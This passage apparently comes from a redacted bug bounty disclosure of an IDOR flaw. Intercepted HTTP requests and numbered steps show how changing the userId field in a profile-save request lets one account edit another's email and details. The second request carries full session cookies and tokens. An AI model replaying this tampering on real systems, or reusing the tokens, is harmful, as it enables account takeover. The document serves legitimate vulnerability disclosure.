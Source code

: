 ```javascript
Content-Type: application/x-www-form-urlencoded
Content-Length: 537
Origin: https://█████████
Referer: https://████████/█████████/EditUserProfile
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

Email=victim@gmail.com&PositionTitleIds=10&Title=Pentester&FirstName=attacking&MiddleName=test&LastName=wearehackerone&PhoneNumber=&LanguageId=&Password=&ConfirmPassword=&userId=123464&passChange=true&PersonProfileId=0&CitizenshipId=101&__RequestVerificationToken=
```
11. In request you can see userId parameter is same from attacker request and from victims request. It doesn't change userId when you update your email.
12. In request, change the ID to your test account's ID.
13. Before changing ID to test account's ID. All you need to do is to create a new account (test account). For test account I was using this email: ██████████
14. If you created test account make sure to turn your foxy proxy on, update your profile and intercept request in your burp suite again.
15. The request should look like this:

```javascript
POST /██████/EditUserProfile/Save HTTP/1.1
Host: ████
Cookie: .AspNetCore.Antiforgery.wZhPOrJ1UhI=CfDJ8NZcuopxrrlAnVqYGUtWQxsyCkGcg0td-ibNe1xIz0u9vm0G-3YwB0P4pSz9OK3QW7SjqdtIdekPY2dPaTat-4pZV-LVeV4tcpazySNA7oIlAih4hGDkWTuUs2TI-NgpY-bdb_cpfQPMg_0qx4HY0CM; TS014b77bb=01d263603a4b90fe81b65bf9d005a81063a1713f030e4e41c68b2e6fdfbcecaf00d41797072a17934e13dae1d4626a7264e9bc4f7962ab399dbbaff75c4d644373978659f05f20018a54e327147891c13e878cb24901785f34934c770f169bd0a39c9e7a1898d41e3487a0ac3992f8549369d38e26; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8NZcuopxrrlAnVqYGUtWQxtsA-gq_U4VzTT_UPVtffN4Mp5xSVzjEI6YzVkINoX_FoCmnYWsUdpP1PX2y57UYI527e0mBw40qounVa_WpXWkEiRpco5mBm8LQVC0y_XBbRbcAGbytrA24EqhocKSOupfTKtFzK-iB_2L9ekRNotla0UYoapvcWFDrQZ-KUQn0O65nIfoxkr6gu9jl3nhpy0; .AspNetAuth=CfDJ8NZcuopxrrlAnVqYGUtWQxuUeFWKVXEqlOxL4TNcHc5b0VL5A7Lnq1diP3edMqJn024bJDCv72IDREsFTjeownrswgIQhDCRm_pDHpxUl6_FRedhYqLjnIV5TzDmQgGT6_QoN5XVl-v9n2B5fmWKcfASedgyauzJzwBwafxFKjbIBpmm5oZoBHuDuVTUDFsreYhEbHVPoQDppRn2VhUQ5Vo-QjWelfM8Vi0R8XS98tC1r0j5npE_JKl-GcWXdtzXIgYLS9t9X05kp3a2dcTTUue33v_4taplSArGZzlHWHLYpMz3tLPE07hTkBrjvKCdpw; ASP.NET_SessionId=eu31ysfgzyfgxalotfr1jp0x; TS0144f203=01d263603a2c7f22f24b6e3dc5545eac2dac86e22b777fbefec77dd724498f634cba9a604948cca126e23e438871080faec4034c4fabc579539aadf5f7b2713082206f08b6604332ce5d3a8f14b0f98a460f109128752513a960c47e1656d275e66a06feee; CSRF-TOKEN=CfDJ8NZcuopxrrlAnVqYGUtWQxuZMGHTc_PA-LxOQs4LufNUd6SlvBQuwui60roGtUVF6HwaLVOFDk0k4sUrUeJU86NEjNXrbhMY7kJwsA3PmoZw_IT-KFt-kkjbhKz2h_XDzBPCTBsF6xsmvpwMYWnDghE; .AspNetCore.Session=CfDJ8NZcuopxrrlAnVqYGUtWQxui3s4%2B%2FcvDV9iqxakLoPTv9z5kxzKLAjyD1w6iEU%2FcOSjWCKPHXJ7Pzw2199TWmi2x19gHCh4kZh9xG7SqQGGB2nvBSih7M6qtUVbbOkY0oN09QJzXWhcx3HwFysw3OebYvivXRjsW6dzGb0zdpgaa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: hr,hr-HR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 537
Origin: https://███
Referer: https://██████████/████████/EditUserProfile
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

Email=████████&PositionTitleIds=10&Title=Pentester&FirstName=attacking&MiddleName=test&LastName=wearehackerone&PhoneNumber=13333333333333339&LanguageId=&Password=&ConfirmPassword=&userId=123465&passChange=true&PersonProfileId=0&CitizenshipId=101&__RequestVerificationToken=
```